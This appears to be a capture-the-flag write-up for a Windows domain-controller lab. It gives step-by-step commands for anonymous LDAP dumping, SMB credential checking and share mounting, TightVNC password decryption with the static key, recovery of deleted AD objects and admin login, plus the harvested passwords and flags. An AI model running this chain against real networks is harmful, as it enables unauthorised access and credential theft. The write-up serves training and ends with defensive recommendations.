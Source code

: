 # Nmap
```bash
nmap 10.10.10.182 -sC -sV
```
13 ports open. Showing that it is also a domain controller. LDAP leaks the domain name of cascade.local

Adding that to /etc/hosts

As there is no webserver checking LDAP and SMB

# LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts
```
Domain DC=cascade,DC=local

Then dump LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon
```
Check for unique values. Which finds a legacyPwd.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
	1 cascadeLegacyPwd: clk0bjVldmE=
```
b64 decode
rY4n5eva

This is r.thompson's password :)

Check with crackmapexec
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
```
This works but doesn't say pwned.

Check smb with user.
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```
Unique things.
Data and print

Using spider_plus in cme
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```

Interesting files.
- meeting notes
- recyclebin
- s.smith files
- mapdatadrive

# SMB Drives
Mount the drives
```bash
sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/data /mnt/data

sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/netlogon /mnt/netlogon
```

Check the netlogon files. No passwords :(

Audit drive? no permission to mount drive :(
password in vnc install.reg
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
kÏ*KnZÊ.
```
which is encrypted

# VNC

googling vnc it turns out to be tightvnc which has a static key :/
running these commands from with irb in msf6:
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
outputs
```
sT333ve2
```

This will be the password for s.smith
trying with cme again

```bash
crackmapexec 10.10.10.182 -u s.smith -p sT333ve2
```
Which says Pwn3d! !

# Foothold
User flag
```bash
3a48ee5fd948da5862bad545d8f3e1e0
```

Checking audit share
runAudit.bat, cascaudit.exe, casccrypt.dll

Reverse engineer the exe to return the output from line 44.
Using dnSpy.
```
w3lc0meFr31nd
```
But for what user?

Dump the sql database
```bash
sqlite3 Audit.db .dump
```
Password was for ArkSvc
Login with evil-winrm

Check privs

member of the recycle bin group?
So we can get deleted items?

Google says yes!

Get-ADObject
```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

Two files.
One which has a cascadeLegacyPwd :)
```
baCT3r1aN00dles
```
Which is the default admin password (from the note earlier)

check for the administrator user.
```powershell
net user administrator
```

The final evil-winrm
and admin :)
```shell
d5a30650809a2b377278273b7d0b7f38
```

# Clean up
Didn't add any files.

# Recommendations
Dont reuse passwords for admin accounts.
Remove the cascadeLegacyPwd field from r.thompson and tempadmin from within LDAP.
Use a better vnc type as this one has a static password, so the encryption is useless.
Dont have hardcoded credentials for an encryption algorithm (Audit.exe)
Why does s.smith need to be able to view the database?
Have a stronger password policy and have rotations every 30 days.
Disable winrm on all accounts that dont need it.